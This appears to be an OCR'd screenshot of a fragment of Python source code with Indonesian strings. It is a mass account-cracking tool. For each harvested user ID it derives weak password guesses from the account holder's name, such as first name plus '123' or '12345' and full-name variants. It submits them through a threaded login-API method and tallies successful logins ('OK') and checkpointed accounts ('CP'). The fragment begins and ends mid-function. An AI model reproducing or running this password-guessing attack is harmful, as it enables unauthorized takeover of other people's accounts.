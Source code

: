 						user = data.split("<=>")[0]

						nama = data.split("<=>")[1]

						depan = nama.split(" ")[0]

						if len(nama)<=5:

							if len(depan)<3:

								pass 

							else:

								pwx.append(depan+"123")

								pwx.append(depan+"12345")

						else:

							if len(depan)<3:

								pwx.append(nama)

							else:

								pwx.append(nama)

								pwx.append(depan+"123")

								pwx.append(depan+"12345")

							belakang = nama.split(" ")[1]

							if len(belakang)<3:

								pwx.append(depan+belakang)

							else:

								pwx.append(depan+belakang)

								pwx.append(belakang+"123")

								pwx.append(belakang+"12345")

						fall.submit(self.metode_api,user,pwx)

					except:

						fall.submit(self.metode_api,user,pwx)

		prints(Panel(f"""{P2}berhasil crack total {len(tampung)} id, dengan hasil OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}""",width=80,padding=(0,8),style=f"{color_panel}"))

		sys.exit()

							

	###----------[ METODE API ]---------- ###

	def metode_api(self,email,pwx):

		prog.update(des,description=f" {H2}•{P2} crack {H2}aman{P2} {str(self.loop)}/{len(tampung)} OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}")
